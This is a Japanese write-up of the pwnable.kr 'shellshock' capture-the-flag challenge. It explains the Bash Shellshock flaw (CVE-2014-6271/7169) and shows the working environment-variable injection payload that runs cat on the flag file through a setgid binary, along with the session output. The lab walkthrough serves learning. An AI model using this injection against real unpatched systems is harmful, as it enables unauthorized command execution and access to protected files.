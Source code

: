 # 内容
shellshockという名称の脆弱性を用いる問題。
まず、ログインしてみる。

```bash
ssh shellshock@pwnable.kr -p2222
shellshock@pwnable.kr's password:
 ____  __    __  ____    ____  ____   _        ___      __  _  ____
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    /
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|

- Site admin : daehee87.kr@gmail.com
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
Last login: Thu Jul 25 21:29:26 2019 from 101.7.158.247
shellshock@prowl:~$ ls
bash  flag  shellshock  shellshock.c
shellshock@prowl:~$ ls -la
total 980
drwxr-x---   5 root shellshock       4096 Oct 23  2016 .
drwxr-xr-x 114 root root             4096 May 19 15:59 ..
-r-xr-xr-x   1 root shellshock     959120 Oct 12  2014 bash
d---------   2 root root             4096 Oct 12  2014 .bash_history
-r--r-----   1 root shellshock_pwn     47 Oct 12  2014 flag
dr-xr-xr-x   2 root root             4096 Oct 12  2014 .irssi
drwxr-xr-x   2 root root             4096 Oct 23  2016 .pwntools-cache
-r-xr-sr-x   1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r--   1 root root              188 Oct 12  2014 shellshock.c
shellshock@prowl:~$ ./bash
shellshock@prowl:~$ exit
exit
shellshock@prowl:~$ ./shellshock
shock_me
shellshock@prowl:~$ cat flag
cat: flag: Permission denied
shellshock@prowl:~$ cat ./shellshock.c
#include <stdio.h>
int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c 'echo shock_me'");
        return 0;
}

shellshock@prowl:~$
```

この問題は知らなとできない。
これはshellshockと呼ばれる脆弱性**CVE-2014-7169**で、
bashで任意のコードを実行できる脆弱性らしい。

問題は環境変数で関数を定義した後、コマンドを実行すると起きる。
例えば以下である。

```bash
env f='() { :;}; echo test' ./bash -c "echo a"
test
a
```

このスクリプトを分解すると、以下のようになる

1. 環境変数に関数を定義する
  * env f='() { :;};'
2. 関数の続きで適当なコマンドを打つ。今回はechoコマンド
  * env f='() { :;}; echo test'
3. bashを実行する。
  * env f='() { :;}; echo test' ./bash -c "echo a"

まず、bashコマンドを実行すると、環境変数を読み込む仕様であることは知られていると思う(関数も環境変数に定義できる)。
つまり、最初に定義した関数を読み込むことになる。

しかし、ここで問題になってくるのがbashの脆弱性。
環境変数を読み込むのはいいが、関数を読み込み、さらにその先のコマンドも読み込んでしまう。
つまり、関数の次に任意のコマンドを入れれることになってしまう。
そのため、今回はcatコマンドを使いflagをゲットしようという算段である。

# 解答
```bash
env f='() { :;}; /bin/cat flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault (core dumped)
```

フラグゲット。

